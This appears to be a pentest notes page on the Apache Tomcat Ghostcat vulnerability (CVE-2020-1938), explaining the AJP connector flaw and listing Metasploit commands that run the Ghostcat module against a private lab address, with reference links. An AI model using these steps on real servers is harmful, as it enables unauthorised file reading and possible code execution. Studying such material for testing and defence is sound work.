 # Apache Ghostcat - CVE 2020-1938

## Theory

Java is currently the most popular programming language in Web development, and Tomcat is one of the most popular Java middleware servers. It has been used for more than 20 years since its initial release.

Ghostcat is a serious vulnerability in Tomcat discovered by security researcher of Chaitin Tech. Due to a flaw in the Tomcat AJP protocol, an attacker can read or include any files in the webapp directories of Tomcat. For example, An attacker can read the webapp configuration files or source code. In addition, if the target web application has a file upload function, the attacker may execute malicious code on the target host by exploiting file inclusion through Ghostcat vulnerability.

Tomcat Connector is the channel for Tomcat to connect to the outside. It enables Catalina to receive requests from the outside, pass them to the corresponding web application for processing, and return the response result of the request.

By default, Tomcat is configured with two Connectors, which are HTTP Connector and AJP Connector:

```
HTTP Connector: used to process HTTP protocol requests (HTTP/1.1), and the default listening address is 0.0.0.0:8080
```

```
AJP Connector: used to process AJP protocol requests (AJP/1.3), and the default listening address is 0.0.0.0:8009
```

HTTP Connector is used to provide HTTP Web services that we often use. The AJP Connector uses the AJP protocol (Apache Jserv Protocol). The AJP protocol can be understood as a performance optimized version of the HTTP protocol in binary format. It can reduce the processing cost of HTTP requests, so it is mainly used in scenarios that require clustering or reverse proxy.



***

## Practical

### Metasploit

```
msfconsole -q

search ghostcat

use auxiliary/admin/http/tomcat_ghostcat

set RHOSTS 10.10.7.246

run
```





***

## REFERENCES

* [https://www.exploit-db.com/exploits/49039](https://www.exploit-db.com/exploits/49039)
* [https://www.chaitin.cn/en/ghostcat](https://www.chaitin.cn/en/ghostcat)

